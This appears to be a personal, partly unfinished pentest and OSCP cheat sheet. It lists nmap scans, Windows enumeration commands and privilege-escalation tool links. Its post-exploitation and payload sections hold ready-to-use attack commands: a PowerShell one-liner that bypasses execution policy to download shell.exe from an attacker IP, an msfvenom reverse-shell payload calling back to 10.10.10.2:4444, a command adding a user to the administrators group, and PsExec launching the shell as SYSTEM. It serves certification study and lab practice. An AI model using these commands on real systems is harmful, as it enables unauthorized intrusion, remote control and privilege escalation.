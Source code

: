 # Pentest Toolkit / OSCP Cheatsheet

imma just throw things that work in here

# Table of Contents

+ [Reconaissance](#reconaissance)
    1. [Port Scanning](#port-scanning)
    2. [Directory Enumeration](#directory-enumeration)
    3. [Header Analysis](#header-analysis)
+ [Exploitation](#exploitation)
+ [Post-Exploitation Enumeration](#post-exploitation)
+ [Privilege Escalation](#privilege-escalation)
    1. [Linux](#linux-privesc)
    2. [Windows](#windows-privesc)
        - The Basics
        - Payloads
        - Privesc Enumeration Tools


## Reconaissance

### Port Scanning
full TCP scan
> sudo nmap -sC -sV -O --open -p- -oA full-tcp [targets]

full UDP scan
> sudo nmap -sU -p- -oA full-udp [targets]

scripts w/ ports
> sudo nmap --scripts vuln,safe,discovery -p \[ports] [targets]

### Directory Enumeration

### Header Analysis

## Exploitation
## Post-Exploitation

### File Transfers

#### From Cmd.exe

'''bash
powershell -ExecutionPolicy bypass -noprofile -c (New-Object System.Net.WebClient).DownloadFile('http://10.10.10.2:8080/shell.exe','C:\Users\Public\shell.exe')
'''


## Privilege Escalation 

### Linux Privesc

First and foremost, [g0tmi1k's blog](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation) is more comprehensive than the commands I will list here.

### Windows Privesc

[FuzzySecurity's blog post](https://www.fuzzysecurity.com/tutorials/16.html)

[Tib3rius's Windows PrivEsc course](https://www.udemy.com/course/windows-privilege-escalation/)
- **The Basics**

**Your User**
> whoami
> whoami /priv
> net user [user]

**System Config**
> systeminfo | findstr /B /C:"OS Name" /C:"OS Version"
> ipconfig /all
> netstat -ano
> tasklist /SVC


- **Payloads**

msfvenom executable payload

> msfvenom -p windows/shell\_reverse\_tcp LHOST=10.10.10.2 LPORT=4444 -f exe -o reverse.exe

RDP- add user to administrators group first

> net localgroup administrators [user] /add

PsExec from Windows Sysinternals

> .\PsExec64.exe -accepteula -i -s C:\temp\reverse.exe

- **PrivEsc Enumeration Tools**

[PowerUp](https://raw.githubusercontent.com/PowerShellEmpire/PowerTools/master/PowerUp/PowerUp.ps1):
> powershell -exec bypass
> . .\PowerUp.ps1
> Invoke-Allchecks

[SharpUp](https://github.com/GhostPack/SharpUp):
> .\SharpUp.exe

[SeatBelt](https://github.com/GhostPack/Seatbelt) (more verbose, less targeted at privesc):
> .\SeatBelt.exe all
> .\SeatBelt.exe Nonstandard

[winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS):
List checks
> .\winPEASany.exe -h
Single check
> .\winPEASany.exe userinfo
All checks
> .\winPEASany.exe


